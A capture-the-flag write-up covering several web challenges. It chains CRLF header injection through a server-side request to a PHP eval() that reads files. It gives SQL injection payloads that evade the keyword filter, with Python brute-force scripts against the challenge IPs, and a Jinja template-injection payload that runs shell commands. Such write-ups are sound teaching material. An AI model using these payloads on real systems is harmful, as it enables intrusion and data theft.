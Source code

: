 # CuaaS

Take a look to index.php and cleaner.php

You can see in cleaner.php file uses `eval()` funtion, maybe you need to use it to get flag.

```php
<?php

if ($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){

die("<img src='https://imgur.com/x7BCUsr.png'>");

}


echo "<br>There your cleaned url: ".$_POST['host'];
echo "<br>Thank you For Using our Service!";


function tryandeval($value){
                echo "<br>How many you visited us ";
                eval($value);
        }


foreach (getallheaders() as $name => $value) {
	if ($name == "X-Visited-Before"){
		tryandeval($value);
	}}
?>

```

`eval()` function is only called when `X-Visited-Before` header is in request.

Note that `/cleaner.php` must be accessed from localhost (12.0.0.1). So we need to access it via index.php:

```php
function clean_and_send($url){
			$uncleanedURL = $url; // should be not used anymore
			$values = parse_url($url);
			$host = explode('/',$values['host']);
			$query = $host[0];
			$data = array('host'=>$query);
			echo 'data';
			$cleanerurl = "http://127.0.0.1:9000/cleaner.php";
   			$stream = file_get_contents($cleanerurl, true, stream_context_create(['http' => [
			'method' => 'POST',
			'header' => "X-Original-URL: $uncleanedURL",
			'content' => http_build_query($data)
			]
			]));
    			echo $stream;
    		echo $uncleanedURL;
			}
```

But we can see that there is no `X-Visited-Before` header in request (stream_context_create function) so we need to add it via $uncleanedURL variable (value of url parameter)
. Two headers will be separated by `\r\n`.

So payload for url is something like:

```
url=a%0d%0aX-Visisted-Before:payload;
```

List file in `/`:
```php
url=a%0d%0aX-Visited-Before:var_dump(scandir('/'));
```
![image](https://user-images.githubusercontent.com/83667873/163729406-bd5e981a-3abd-42a0-ba28-e899dac077cb.png)

Read flag:

```php
url=a%0d%0aX-Visited-Before:echo+file_get_contents('/maybethisistheflag');
```

![image](https://user-images.githubusercontent.com/83667873/163729434-9471e559-a49e-46fc-9962-c7741fda968e.png)

# Marvel Pick

After testing, I found that used database is sqlite and we can exploit sqli in character parameter:

![image](https://user-images.githubusercontent.com/83667873/163729601-651ef9c5-d43d-4874-95b1-44bcffd117e7.png)

Here is some filtered words/characters I found (maybe):

`or, select, substr, = , -`

When I enter `or` as input, it returns nothing, so I guess that It will replace `or` which `''`:

![image](https://user-images.githubusercontent.com/83667873/163729782-727a3641-7930-4340-acc6-c5311ace3612.png)

So I try to enter `oorr` and we get `or`. Perfectly, it only replace one time:

![image](https://user-images.githubusercontent.com/83667873/163729863-455970c2-5b06-4aed-b289-fd1deb928004.png)

![image](https://user-images.githubusercontent.com/83667873/163729912-0958284d-2b79-4f77-b9ef-58e7eb1c73c1.png)

Next, we just need to brute to find flag. 

But, note that only only one column return at a time, so I use `limit` to get tables and columns name:

Payload to find tables and columns name:

```
' oorr (unicode(subsubstrstr((seselectlect sql from sqlite_master limit 1,1),{i},1)) like {ord(s)}) union selselectect '1','1
```

![i1](https://user-images.githubusercontent.com/83667873/163730146-155b0741-e98a-4ead-a53e-b94a34a3c0a2.png)

Find flag:

```py
import string
import requests

url = 'http://34.126.83.114:1337/api.php'

partten = string.printable.replace('%','')

def genpayload(i,s):
	return f"' oorr (unicode(subsubstrstr((seselectlect value from flags),{i},1)) like {ord(s)}) union selselectect '1','1"

i=1
foundstr=''
while True:
	for s in partten:
		r = requests.get(url,params={'character':genpayload(i,s)})
		if "\"vote_count\":1}" not in r.text:
			foundstr += s
			print('[+]Found',foundstr)
			break
	i = i+1
```
![i2](https://user-images.githubusercontent.com/83667873/163730162-7e39f780-6751-4946-995c-a898aa472421.png)

# Marvel Pick Again:

This challenge is similar to Marval Pick, but this challenge is limited number of chars;

```py
import requests
import string

url = 'http://34.126.83.114:3390/api.php'
partten = string.printable.replace('%','').replace("'",'')

#Find number chars
for i in range(1,102):
	r = requests.get(url,params={'character':'a'*i})
	if 'No No NO' in r.text:
		print('[+] Found ',i)
		break
```
![image](https://user-images.githubusercontent.com/83667873/163730258-f3abc5fd-99e1-4a02-9938-f7117786bae3.png)

So we can not use payload use in Marvel Pick.

After a few tries, I found that only `or, select` in lowercase are filtered, It means that we can use  `oR, selEct` or something else:

![image](https://user-images.githubusercontent.com/83667873/163730382-6a84742a-b81b-4a8d-8068-c236927bf68d.png)

Too lazy to brute force, I try the same table name and column name with Marvel Pick, and It work :'))).

Script to find flag:

```py
import requests

url = 'http://34.126.83.114:3390/api.php'
partten = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!{|}_\"#$&\'()*+,-./:;<=>?@[\\]^`{|}~"

def genpayload(i,s):
	return f"' oR (suBstr((sElect value from flags),{i},1) like '{s}') union selecT 1,'1"

i=1
foundstr=''
while True:
	for s in partten:
		r = requests.get(url,params={'character':genpayload(i,s)})
		if "\"vote_count\":1}" not in r.text:
			foundstr += s
			print('[+]Found',foundstr)
			break
	i = i+1
```

![image](https://user-images.githubusercontent.com/83667873/163730836-382502bb-8128-4fb4-837b-30ddc2f61993.png)

# EzChall + EzChall Again
*Note: I solve them after the CTF*

While the CTF is running, I stuck in comparing passwd. So I cann't solve these challenges. I solve them after read hint in discord.

Payload: 
```
payload={% set a=session.update({"a":lipsum['__glob' 'als__']['os']['popen']('head /flag')['re' 'ad']() })%}
```

## Updating...

